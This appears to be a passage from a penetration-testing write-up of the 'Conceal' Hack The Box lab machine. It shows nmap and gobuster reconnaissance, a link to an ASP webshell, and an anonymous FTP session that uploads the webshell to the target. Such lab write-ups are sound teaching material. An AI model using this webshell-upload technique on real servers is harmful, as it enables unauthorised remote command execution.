 	PORT    STATE SERVICE       VERSION
	21/tcp  open  ftp           Microsoft ftpd
	|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
	| ftp-syst:
	|_  SYST: Windows_NT
	80/tcp  open  http          Microsoft IIS httpd 10.0
	| http-methods:
	|_  Potentially risky methods: TRACE
	|_http-server-header: Microsoft-IIS/10.0
	|_http-title: IIS Windows
	135/tcp open  msrpc         Microsoft Windows RPC
	139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
	445/tcp open  microsoft-ds?
	Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

	Host script results:
	| smb2-security-mode:
	|   2.02:
	|_    Message signing enabled but not required
	| smb2-time:
	|   date: 2019-05-18 11:50:58
	|_  start_date: 2019-05-18 06:32:33

	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                                         
	Nmap done: 1 IP address (1 host up) scanned in 23.56 seconds

We have very interesting information, we can see that we can connect as Anonymous in FTP and we can upload files to the system via the FTP protocol.
	
HTTP
----
So if we go to the HTTP server, there is not much, so for that I will launch a gobuster attack to see if there are any interesting folders or files.

	root@Seyptoo:~/htb/box/Conceal# gobuster -q -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.116
	/upload (Status: 301)

So the website only accepts asp or aspx, but in no case does it accept PHP. So for that I will upload an ASP WebShell shell for IIS 8 to the server to send commands. A good link to download the shell.
https://packetstormsecurity.com/files/137024/ASP-Webshell-For-IIS-8.html <br/>

	root@Seyptoo:~/htb/box/Conceal# ftp 10.10.10.116
	Connected to 10.10.10.116.
	220 Microsoft FTP Service
	Name (10.10.10.116:seyptoo): anonymous
	331 Anonymous access allowed, send identity (e-mail name) as password.
	Password:
	230 User logged in.
	Remote system type is Windows_NT.
	ftp> mput index.asp
	mput index.asp? y
	200 PORT command successful.
	125 Data connection already open; Transfer starting.
	226 Transfer complete.
	1423 bytes sent in 0.00 secs (17.8563 MB/s)